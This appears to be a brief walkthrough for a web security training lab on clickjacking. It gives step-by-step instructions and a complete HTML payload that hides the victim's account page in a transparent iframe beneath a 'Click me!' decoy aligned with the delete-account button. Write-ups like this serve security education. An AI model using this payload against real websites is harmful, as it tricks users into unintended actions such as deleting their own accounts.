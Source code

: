 First, login as `wiener` user.  Then click on `Go to exploit server`. On the exploit server paste the following code. **Note**, you may have to edit the `top` and `left` values in `#divBlock` as needed. To do this, click on `View exploit` and check whether the `Click me!` div aligns properly with the delete button and adjust accordingly.

```
<br>
<style>
   #iframeBlock {
       position:relative;
       width:700;
       height: 500;
       opacity: 0.0;
       z-index: 2;
   }
   #divBlock {
       position:absolute;
       color:green;
       top:515;
       left:68;
       z-index: 1;
   }
</style>
<div id="divBlock">Click me!</div>
<iframe id="iframeBlock" src="https://ac691f8e1e9279c380c9b56a005e0018.web-security-academy.net/my-account"></iframe>
```

Then, click on `Deliver exploit to victim` and the lab will be solved!

